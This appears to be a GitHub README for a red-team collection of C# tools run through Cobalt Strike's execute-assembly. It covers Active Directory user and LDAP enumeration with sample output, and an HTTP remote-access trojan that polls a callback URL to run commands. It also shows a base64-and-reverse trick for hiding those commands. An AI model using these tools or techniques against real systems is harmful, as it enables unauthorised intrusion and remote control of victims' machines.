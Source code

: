 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

``rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

# Credit

Mr.Un1k0d3r RingZer0 Team
